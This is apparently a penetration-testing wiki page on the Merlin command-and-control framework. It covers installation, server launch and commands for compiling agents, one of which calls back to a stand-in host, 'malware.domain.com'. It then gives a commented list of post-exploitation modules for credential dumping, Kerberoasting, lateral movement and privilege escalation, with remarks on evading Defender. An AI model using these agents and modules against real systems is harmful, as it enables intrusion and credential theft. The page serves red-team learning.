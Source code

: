```yaml
---
description: 'https://github.com/Ne0nd0g/merlin'
---
```


# Merlin

## Installation

### Install GO

```text
#Download GO package from: https://golang.org/dl/
#Decompress the packe using:
tar -C /usr/local -xzf go$VERSION.$OS-$ARCH.tar.gz

#Change /etc/profile
Add ":/usr/local/go/bin" to PATH
Add "export GOPATH=$HOME/go"
Add "export GOBIN=$GOPATH/bin"

source /etc/profile
```

### Install Merlin

```text
go get https://github.com/Ne0nd0g/merlin/tree/dev #It is recommended to use the developer branch
cd $GOPATH/src/github.com/Ne0nd0g/merlin/
```

## Launch Merlin Server

```text
go run cmd/merlinserver/main.go -i
```

## Merlin Agents

You can [download precompiled agents](https://github.com/Ne0nd0g/merlin/releases)

### Compile Agents

Go to the main folder _$GOPATH/src/github.com/Ne0nd0g/merlin/_

```text
#User URL param to set the listener URL
make #Server and Agents of all
make windows #Server and Agents for Windows
make windows-agent URL=https://malware.domain.com:443/ #Agent for windows (arm, dll, linux, darwin, javascript, mips)
```

### **Manual compile agents**

```text
GOOS=windows GOARCH=amd64 go build -ldflags "-X main.url=https://10.2.0.5:443" -o agent.exe main.g
```

## Modules

**The bad news is that every module used by Merlin is downloaded from the source \(github\) and saved indisk before using it. Forge about usingwell known modules because Windows Defender will catch you!**  


**SafetyKatz** --&gt; Modified Mimikatz. Dump LSASS to file and launch:sekurlsa::logonpasswords to that file  
**SharpDump** --&gt; minidump for the process ID specified \(LSASS by default\) \(Itsais that the extension of the final file is .gz but indeed it is.bin, but is agz file\)  
**SharpRoast** --&gt;Kerberoast \(doesn't work\)  
**SeatBelt** --&gt; Local Security Tests in CS \(does not work\) https://github.com/GhostPack/Seatbelt/blob/master/Seatbelt/Program.cs  
**Compiler-CSharp** --&gt; Compile using csc.exe /unsafe  
**Sharp-Up** --&gt;Allchecks in C\# in powerup \(works\)  
**Inveigh** --&gt; PowerShellADIDNS/LLMNR/mDNS/NBNS spoofer and man-in-the-middle tool \(doesn't works, need to load: https://raw.githubusercontent.com/Kevin-Robertson/Inveigh/master/Inveigh.ps1\)  
**Invoke-InternalMonologue** --&gt; impersonates all available users and retrieves a challenge-response for each \(NTLM hash for each user\) \(bad url\)  
**Invoke-PowerThIEf** --&gt; Steal forms from IExplorer or make it execute JS or inject a DLL in that process \(doesnt work\) \(and the PS looks like doesnt work either\) https://github.com/nettitude/Invoke-PowerThIEf/blob/master/Invoke-PowerThIEf.ps1  
**LaZagneForensic** --&gt; Get browser passwords \(works but dont prints the output directory\)  
**dumpCredStore** --&gt; Win32 Credential Manager API \(https://github.com/zetlen/clortho/blob/master/CredMan.ps1\) https://www.digitalcitizen.life/credential-manager-where-windows-stores-passwords-other-login-details  
**Get-InjectedThread** --&gt; Detect classic injection in running processes \(Classic Injection \(OpenProcess, VirtualAllocEx, WriteProcessMemory, CreateRemoteThread\)\) \(doesnt works\)  
**Get-OSTokenInformation** --&gt; Get Token Info of the running processes and threads \(User, groups, privileges, owner… https://docs.microsoft.com/es-es/windows/desktop/api/winnt/ne-winnt-\_token\_information\_class\)  
**Invoke-DCOM** --&gt; Execute a command \(inother computer\) via DCOM \(http://www.enigma0x3.net.\) \(https://enigma0x3.net/2017/09/11/lateral-movement-using-excel-application-and-dcom/\)  
**Invoke-DCOMPowerPointPivot** --&gt; Execute a command in othe PC abusing PowerPoint COM objects \(ADDin\)  
**Invoke-ExcelMacroPivot** --&gt; Execute a command in othe PC abusing DCOM in Excel  
**Find-ComputersWithRemoteAccessPolicies** --&gt; \(not working\) \(https://labs.mwrinfosecurity.com/blog/enumerating-remote-access-policies-through-gpo/\)  
**Grouper** --&gt; It dumps all the most interesting parts of group policy and then roots around in them for exploitable stuff. \(deprecated\) Take a look at Grouper2, looks really nice  
**Invoke-WMILM** --&gt; WMI to move laterally  
**Get-GPPPassword** --&gt; Look for groups.xml, scheduledtasks.xml, services.xmland datasources.xml and returns plaintext passwords \(insidedomain\)  
**Invoke-Mimikatz** --&gt; Use mimikatz \(default dump creds\)  
**PowerUp** --&gt; https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc  
**Find-BadPrivilege** --&gt; Check the privileges of users in computers  
**Find-PotentiallyCrackableAccounts** --&gt; retrieve information about user accounts associated with SPN \(Kerberoasting\)  
**psgetsystem** --&gt; getsystem

**Didn't check persistence modules**

## Resume

I really like the feeling and the potential of the tool.  
I hope the tool will start downloading the modules from the server and integrates some kind of evasion when downloading scripts.

